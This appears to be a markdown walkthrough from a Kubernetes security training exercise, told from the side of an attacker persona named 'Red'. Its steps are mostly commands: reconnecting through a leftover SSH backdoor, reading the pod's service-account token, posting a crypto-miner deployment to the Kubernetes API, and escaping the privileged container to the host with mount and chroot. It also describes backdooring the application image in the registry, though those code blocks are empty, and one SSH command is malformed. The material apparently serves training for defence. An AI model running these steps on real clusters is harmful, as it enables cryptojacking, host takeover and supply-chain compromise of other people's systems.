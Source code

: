# Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:
  * There is a service account associated with the container which has been granted access to all kubernetes APIs
  * The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "Sup3r_S3cr3t_P@ssw0rd" > ssh root@<service IP from attack 1>:8080
```

To restart our crypto mining, we will need the token for the pod service account:
```console
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

We also want to make sure we are creating the new miners in the same namespace:
```console
export NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
```

And we will be connecting to the kubernetes API from inside the cluster this time:
```console
export API_SERVER="https://kubernetes.default.svc"
```

Now the fun part, let's create our miner:
```console
curl -k -X POST "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods" -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data-binary '{"apiVersion":"apps/v1","kind":"Deployment","metadata":{"labels":{"run":"bitcoinero"},"name":"bitcoinero","namespace":"dev"},"spec":{"replicas":1,"revisionHistoryLimit":2,"selector":{"matchLabels":{"run":"bitcoinero"}},"strategy":{"rollingUpdate":{"maxSurge":"25%","maxUnavailable":"25%"},"type":"RollingUpdate"},"template":{"metadata":{"labels":{"run":"bitcoinero"}},"spec":{"containers":[{"image":"securekubernetes/bitcoinero:latest","name":"bitcoinero","command":["./moneymoneymoney"],"args":["-c","1","-l","10"],"resources":{"requests":{"cpu":"100m","memory":"128Mi"},"limits":{"cpu":"200m","memory":"128Mi"}}}]}}}}'
```

Verify that the pod is running:
```console
curl -k -X GET "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods/bitcoinero" -H "Authorization: Bearer $TOKEN" -H "Accept: application/json" 2>/dev/null | grep phase
```

## Future Proofing

__Red__ has already been discovered once on this system. Luckily we left a backdoor last time. We should probably do that again. This time, let's hide our miner inside of a legitimate application. Then we won't even need access to the cluster anymore, whenever the owner of the cluster runs their apps, our miners will get spun up right along with them.

To get started we need to escape the container and gain access to the host OS:
```console
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
chroot /mnt/hola
```
And just like that you are now root on the host node!

Next we need to figure out where the container images are coming from:
```console
kubectl get deployment <deployment-name> -n prod -o jsonpath="{.spec.template.spec.containers[*].image}"
```

Now let's add our crypto miner to the application image:
```console
```

And then we push our modified image to the repository, replacing the existing image. 
```console
```

Now, all future instances of the application that launch on this cluster will run our crypto miner alongside their application!

Time for some celebratory pizza!